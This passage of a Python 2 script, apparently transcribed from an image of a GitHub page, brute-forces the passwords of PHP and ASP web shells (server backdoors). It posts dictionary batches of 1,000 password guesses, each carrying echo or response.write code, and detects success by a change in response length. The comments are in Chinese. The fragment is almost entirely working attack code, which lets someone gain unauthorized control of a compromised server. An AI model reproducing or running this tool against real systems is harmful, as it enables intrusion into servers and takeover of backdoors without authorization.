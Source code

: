 ```
    post_test.clear()

    for i in range(0, dics):
        new_group = []
        for k in range(i * 1000, (i + 1) * 1000):
            new_group.append(group[k])
            k += 1
        for each in new_group:
            post_data[each] = 'echo "password is %s";' % each
        r = requests.post(shell, data=post_data)
        print "正在进行第 %s 组字典爆破" % str(i + 1)
        post_data.clear()
        i += 1
        print r.text
        if len(r.text) != len(wrong_res):
            break

    new_group1 = []
    for kk in range(dics * 1000, len(content)):
        new_group1.append(group[kk])
        kk += 1
    for each in new_group1:
        post_data[each] = 'echo "password is %s";' % each
    r = requests.post(shell, data=post_data)
    print "正在进行余数字典爆破"
    print r.text

#v5est0r=response.write("password:v5est0r")

if shell_type =='asp':
    # 下面建立错误密码的返回标识符
    post_test = {'test_pass_test': 'response.write("test!!!")'}
    res = requests.post(shell, data=post_test)
    wrong_res = res.text
    post_test.clear()

    for i in range(0, dics):
        new_group = []
        for k in range(i * 1000, (i + 1) * 1000):
            new_group.append(group[k])
            k += 1
        for each in new_group:
            post_data[each] = 'response.write("password: %s")' % each
        r = requests.post(shell, data=post_data)
        print "正在进行第 %s 组字典爆破" % str(i + 1)
        post_data.clear()
        i += 1
        print r.text
        if len(r.text) != len(wrong_res):
            break

    new_group1 = []
    for kk in range(dics * 1000, len(content)):
        new_group1.append(group[kk])
        kk += 1
    for each in new_group1:
        post_data[each] = 'response.write("password: %s")' % each
    r = requests.post(shell, data=post_data)
    print "正在进行余数字典爆破"
    print r.text
```
